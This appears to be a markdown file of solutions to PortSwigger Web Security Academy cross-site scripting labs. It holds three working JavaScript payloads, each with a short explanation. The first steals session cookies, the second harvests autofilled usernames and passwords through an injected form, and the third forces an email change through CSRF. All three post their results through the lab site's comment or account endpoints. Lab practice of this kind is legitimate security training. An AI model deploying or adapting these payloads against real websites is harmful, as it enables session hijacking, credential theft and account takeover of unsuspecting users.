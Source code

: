 # XSS Exploits

**Note:** Update the base URL https://ac741f481eba7f5d80a83ee7003a00d0.web-security-academy.net/ to match yours!

_Instead of using Burp Collaborator, you could adapt the attack to make the victim post their cookie within
a blog comment by exploiting the XSS to perform CSRF, although this would mean that the cookie value is
exposed publicly, and also discloses evidence that the attack was performed._

## Exploiting cross-site scripting to steal cookies

_Stealing cookies is a traditional way to exploit XSS. Most web applications use cookies for session
handling. You can exploit cross-site scripting vulnerabilities to send the victim's cookies to your
own domain, then manually inject the cookies into your browser and impersonate the victim._

```html
<script>
window.onload = function(e) {
    var csrf = document.getElementsByName("csrf")[0].value;
    console.log(csrf);
    fetch('https://ac6b1f801e21e609805034f000bf00b3.web-security-academy.net/post/comment', {
        method: 'POST',
        body: 'csrf=' + csrf + '&postId=1&comment=Cookie: ' + document.cookie + '&name=Jan&email=admin%40cmdnctrl.net&website='
    });
};
</script>
```

## Exploiting cross-site scripting to capture passwords

_These days, many users have password managers that auto-fill their passwords. You can take advantage
of this by creating a password input, reading out the auto-filled password, and sending it to your
own domain. This technique avoids most of the problems associated with stealing cookies, and can even
gain access to every other account where the victim has reused the same password._

```html
<form><input type="text" id="username" name="username"></form>
<form><input type="password" id="password" name="password"></form>
<script>
window.onload = function(e) {
    setTimeout(function() {
        var csrf = document.getElementsByName("csrf")[0].value;
        var username = document.getElementById("username").value;
        var passw = document.getElementById("password").value;
        console.log(csrf);
        fetch('https://ac741f481eba7f5d80a83ee7003a00d0.web-security-academy.net/post/comment', {
            method: 'POST',
            body: 'csrf=' + csrf + '&postId=3&comment=Username: ' + username + ', Password: ' + passw + '&name=Jan&email=admin%40cmdnctrl.net&website='
        });
    }, 2500);
};
</script>
```

## Exploiting cross-site scripting to perform CSRF

_Anything a legitimate user can do on a web site, you can probably do too with XSS. Depending on the site
you're targeting, you might be able to make a victim send a message, accept a friend request, commit a
backdoor to a source code repository, or transfer some Bitcoin._

```html
<script>
window.onload = function(e) {
    var csrf = document.getElementsByName("csrf")[0].value;
    console.log(csrf);
    fetch('https://ac8e1fe31e1017ee80982bb700310061.web-security-academy.net/email/change', {
        method: 'POST',
        body: 'csrf=' + csrf + '&email=john@wick.com'
    });
};
</script>
```



